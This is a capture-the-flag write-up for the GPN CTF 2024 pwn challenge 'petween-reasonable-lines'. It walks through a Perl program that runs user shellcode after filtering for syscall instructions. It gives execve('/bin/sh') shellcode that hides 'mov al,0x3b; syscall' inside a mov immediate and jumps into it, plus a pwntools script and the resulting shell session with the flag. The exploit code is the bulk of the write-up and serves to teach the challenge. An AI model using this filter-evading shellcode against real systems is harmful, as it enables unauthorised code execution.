


# GPN CTF 2024

## pwn/petween-reasonable-lines

## Introduction

This is a shellcode assembly challenge.
We're given a perl script `vuln.pl`:

```perl
#!/usr/bin/perl
use strict;
use DynaLoader;
use IPC::Open2;

print "Disassemble what?\n";
$| = 1;
my $s = 42;
my $p = syscall(9, 0, $s, 2, 33, -1, 0);
syscall(0, 0, $p, $s);
my $c = unpack "P$s", pack("Q", $p);

open2 my $out, my $in, "ndisasm -b64 -";
print $in $c;
close $in;
for (<$out>) {
 print $_;
 if (/syscall|sysenter|int|0x3b/) {
  die "no hax pls";
 }
}

print "Looks safe.\n";
syscall(10, $p, $s, 4);
&{DynaLoader::dl_install_xsub("", $p)};
```

Understanding the perl code is not required to solve the challenge. But here is a breakdown of the important parts of the code:
<br>
`$p` is the address of the memory region created by calling `mmap` (syscall 9) with `PROT_WRITE` flag.
Next, the program is reads `$s` (42) bytes from the standard input into `$p` (using syscall 0).
`$c` is the shellcode that we read from the standard input.
<br><br>
The program then disassembles the shellcode (and prints every line) using `ndisasm` and filters out `syscall`, `sysenter`, `int`, `0x3b`.
It uses `mprotect` (syscall 10) to set the memory to `PROT_EXECUTE` only and uses DynaLoader to load and execute the shellcode.
So, we're expected to write a shellcode to make a `execve(/bin/sh)` call without using any of the filtered instructions.

## Writing basic shellcode

First, let's write some `nasm` shellcode that uses `syscall` to make a `execve(/bin/sh)` call.

```nasm
global _start
section .text
_start:
    mov rdi,0x68732f2f6e69622f
    push 0
    push rdi
    push rsp
    pop rdi
    xor rax, rax
    xor rsi, rsi
    xor rdx, rdx
    mov al, 59
    syscall
```

This basically loads the string `/bin//sh` into `rdi`. But `execve` expects a pointer to the string as the first argument (`rdi`). So, we push the address of the string onto the stack and load it into `rdi` (the `push 0` is for the null terminator). Then, we zero out `rax`, `rsi`, `rdx` (making other arguments 0 to be safe) and set `rax` to `59` (the syscall number for `execve`). Finally, we make the syscall.
<br>
Assembling and running this code via `nasm -felf64 shellcode.s && ld shellcode.o -o shellcode && ./shellcode` gives us a shell, as expected.

## Exploit

Viewing the code at [godbolt](https://godbolt.org/>) gives us the following disassembly:<br><br>
<br><br>
The lines using `0x3b` and `syscall` in hex are `b0 3b 0f 05`. So if we write a valid instruction that contains these bytes, and if we jump to the middle of that instruction to the `b0 3b 0f 05` part, then out desired instructions will be executed and the instruction wouldn't trigger any of the filters.
<br><br>
Since, our desired instructions are of 4 bytes, we can write a `mov` instruction from `0x050f3bb0` (the instruction in little endian) into any of the 4 byte registers.
`mov eax, 0x050f3bb0` translates to `b8 b0 3b 0f 05` in hex.
<br><br>
Next, we write some code that jumps to the middle of the `mov` instruction:<br><br>
<br><br>
Finally, we write a `pwntools` script to send this shellcode to the server:

```python
from pwn import *

context.arch = "amd64"
a = asm("""
movabs rdi, 0x68732f2f6e69622f
push 0x0
push rdi
push rsp
pop rdi
xor rax, rax
xor rsi, rsi
xor rdx, rdx
lea rbx, [rip + 0x3]
jmp rbx
mov eax, 0x50f3bb0""")

# p = process("./vuln.pl")
p = remote("xxx.ctf.kitctf.de", "xxx", ssl=True)
p.recvuntil(b"Disassemble what?")
p.sendline(a)
p.recvuntil(b"Looks safe.")
p.interactive()
```

Running this script gives us a shell:

```bash
[+] Opening connection to xxx.ctf.kitctf.de on port xxx: Done
[*] Switching to interactive mode

$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
GPNCTF{On3_d0es_Not_s1mply_Jump_int0_th3_m1ddle_of_4n_instruct1ion!!1}
```
